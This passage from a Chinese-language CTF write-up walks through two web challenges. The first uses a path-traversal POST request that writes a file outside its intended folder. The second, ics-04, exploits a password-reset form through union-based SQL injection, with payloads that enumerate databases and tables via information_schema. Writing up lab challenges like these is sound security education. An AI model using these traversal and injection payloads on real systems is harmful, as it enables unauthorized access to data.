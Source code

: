然后抓包提交

```
// 这里的%20是空格，为了让echo "${username}" > posts/1.wtf /${next_reply_id}截断，这样我们的1.wtf就不会被当成文件夹，而是被当成文件，不存在也会被创建，然后写入
// 之所以写入users_lookup是因为users_lookup文件夹下面没有建立.nolist .noread,而posts下面有，所以无法访问其下的wtf。
POST /reply.wtf?post=../users_lookup/1.wtf%20
xxx

text=123456&submit=
```

然后访问users_lookup/1.wtf

![](https://wulasite.top/mdimage/adword/get_flag2.png)



## ics-04

题目提示

> 工控云管理系统新添加的登录和注册页面存在漏洞，请找出flag。

那就直接开始怼登录和注册功能。

有注册登录功能的题目，当然是先试注册功能。

FUZZ了一番发现，没有SQL注入，注册的时候没有检查用户是否存在，所以可以重复注册。所以注册一个admin登录试试。登录成功之后提示

> 普通用户登录成功,没什么用

那看来得找管理员账户，但是又不是admin。测试一下登录功能也没有发现SQL注入。但是还有个忘记密码的功能。

![](https://wulasite.top/mdimage/adword/cetc_forget.png)

测试了一波发现有SQL注入，并且没有啥过滤。

在我确定列数之后，在尝试使用

```
0' union select 1,2,databaser(),4#
```

发现好像database()函数被禁用了。那怎么办？猜，不太现实。如果还记得爆表和列的库information_schema里面存有库和表的信息，就可以利用这个。

提交

```
0' union select 1,2,GROUP_CONCAT(DISTINCT TABLE_SCHEMA),4 from information_schema.columns #
```

返回

```
information_schema,cetc004,mysql,performance_schema
```

根据结果返回提交

```
0' union select 1,2,GROUP_CONCAT(DISTINCT TABLE_NAME),4 from information_schema.columns where table_schema='cetc004' #
```
